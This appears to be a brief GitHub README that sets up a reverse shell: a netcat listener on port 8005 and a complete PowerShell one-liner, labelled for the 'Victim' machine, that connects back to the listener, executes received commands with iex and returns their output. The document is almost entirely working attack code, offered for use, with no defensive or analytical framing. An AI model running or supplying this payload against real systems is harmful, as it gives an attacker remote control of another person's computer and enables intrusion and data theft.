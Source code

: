 # Listening Server
```bash
apt update
apt upgrade
apt install netcat
nc -lnvp 8005 <local IP>
```

**To get Local IP Address on <ins>Windows</ins>, type `ipconfig` in cmd**
<br>
**To get Local IP Address on <ins>Linux</ins>, type `ip addr` in your terminal**

# Sending Server (Victim)
```powershell
$client = New-Object System.Net.Sockets.TCPClient("<listening server local ip>",8005);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```
